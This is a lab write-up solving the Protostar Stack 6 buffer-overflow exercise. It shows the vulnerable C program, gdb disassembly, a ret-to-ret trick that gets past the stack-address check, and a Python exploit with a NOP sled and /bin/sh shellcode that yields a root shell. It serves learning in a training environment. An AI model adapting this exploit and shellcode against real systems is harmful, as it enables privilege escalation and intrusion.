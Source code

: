 # PROTOSTAR : STACK 6
[Protostar:Stack6](https://exploit.education/protostar/stack-six/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The **main()** calls **getpath()** function and the **buffer** variable is located in **getpath()**. The **gets** is vulnerable to Buffer Overflow and it takes **buffer** input. After filling the **buffer** we cannot directly go to stack address because of **stack address restrictions**.

Below is the disassembly of the **getpath()** function.
```
user@protostar:/tmp$ gdb -q /opt/protostar/bin/stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disass getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>: push   ebp
0x08048485 <getpath+1>: mov    ebp,esp
0x08048487 <getpath+3>: sub    esp,0x68
0x0804848a <getpath+6>: mov    eax,0x80485d0
0x0804848f <getpath+11>:        mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    eax,ds:0x8049720
0x0804849c <getpath+24>:        mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:        and    eax,0xbf000000
0x080484bd <getpath+57>:        cmp    eax,0xbf000000
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    eax,0x80485e4
0x080484c9 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:        mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    eax,0x80485f0
0x080484e9 <getpath+101>:       lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:       mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave  
0x080484f9 <getpath+117>:       ret    
End of assembler dump.
(gdb) 
```

*How to Bypass Stack Address Restriction*
- To bypass the **stack address restriction** we will return to   the function itself, then go to a stack address and place our shellcode there.

    Return address = **0x080484f9** 

```py
import struct
padding = "A"*80

ret = struct.pack("I",0x080484f9)

print(padding + ret)
```
Lets run it and check whether the program returns to the function itself.

```
(gdb) b *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) r < ./exploit
Starting program: /opt/protostar/bin/stack6 < ./exploit
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA��

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) x/4x $esp
0xbffff7ac:     0x080484f9      0x08048500      0x00000000      0xbffff838
(gdb) si

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      in stack6/stack6.c
(gdb) 
```
If you observer the stack you will see the address of the function itself is on the stack and when it got popped the function pointer returned to itself.

Now let's write our Python Exploit code.

```py
import struct
padding = "A"*80

ret = struct.pack("I",0x080484f9)

stack = struct.pack("I",0xbffff7b0+20)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + stack + nop + shellcode)
```

Executing the program, we get the ROOT SHELL. Remember that the shell needs an input so I have used the **cat** command.
```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA���������������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS���

whoami
root

```